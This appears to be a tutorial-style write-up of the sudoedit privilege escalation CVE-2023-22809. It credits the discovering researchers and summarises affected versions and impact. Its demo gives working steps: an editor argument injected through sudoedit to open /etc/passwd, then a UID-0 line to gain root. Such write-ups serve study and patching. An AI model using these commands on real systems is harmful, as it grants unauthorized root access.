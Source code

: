 ## [CVE-2023-22809: Sudoedit Privilege Escalation Vulnerability](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

**Discovered by:** [Matthieu Barjole](https://fr.linkedin.com/in/matthieu-barjole-bb8790309) and [Victor Cutillas](https://www.linkedin.com/in/victor-c-security/) (from [Synacktiv](https://www.synacktiv.com/en))

**Affected Versions:** Sudo 1.8.0 through 1.9.12p1

**Component:** ```sudoedit``` function in Unix systems
<br>
<br>

## Vulnerability Overview
* Permits escalation of privileges by overcoming the ```sudoers``` configuration.
* Can be exploited by anyone granted ```sudoedit``` rights.
* Enables modification of files that the policy would otherwise block.
<br>

## Exploitation Details
* Triggered when the user-specified editor includes a ```--``` argument.
* The ```--``` causes the sudo front-end to treat all following inputs as file paths.
* This bypasses normal checks and restrictions defined in the sudoers configuration.
<br>

## Impact
* Malicious users can gain unauthorized access to sensitive files.
* Potential for root-level privilege escalation.
<br>

## Demo

On our Ubuntu machine, verify the ```sudo``` version using this command:
```
sudo -V
```
<br>
<img width="413" height="145" alt="image" src="https://github.com/user-attachments/assets/3f8c9e06-1bcd-4bc9-895c-994c43377407" />
<br>

We can see on the image above that the sudo version is ```1.9.9``` which is within the ```CVE-2023-22809```.
<br>

If we type ```sudo -l```, we can see the commands that we have access to. Based on the image below, we can see that we have access full access to ```sudoedit```.
<br>
<img width="1417" height="109" alt="image" src="https://github.com/user-attachments/assets/dfc246b7-a80b-4183-ba14-5a33e73acd14" />
<br>

Next, edit a privileged file (```/etc/passwd```) to escalate the compromised compromised user to root with the below command. Then copy root line entry(```/etc/passwd```) to paste and modify compromised user's line entry still on the same file.
```
EDITOR='nano -- /etc/passwd' sudoedit /etc/motd
```
<br>

At the very bottom, replace the last line with the following:
```
<USERNAME>:x:0:0:root:/root:/bin/bash
```
<br>

To verify, we can use the ```tail``` command:
```
tail -1 /etc/passwd
```
<br>
<img width="402" height="65" alt="image" src="https://github.com/user-attachments/assets/636d9ea3-fbd0-4aaf-b5ce-cd176006a3ea" />
<br>

Now, let's try and see if we've successfully escalated the compromised user to ```root``` by using below command(Enter password if prompted).
```
su <USERNAME>
```
<br>
<img width="431" height="136" alt="image" src="https://github.com/user-attachments/assets/6c19aaa9-a5a8-4356-bf7d-da7bcaf7fdc6" />
<br>

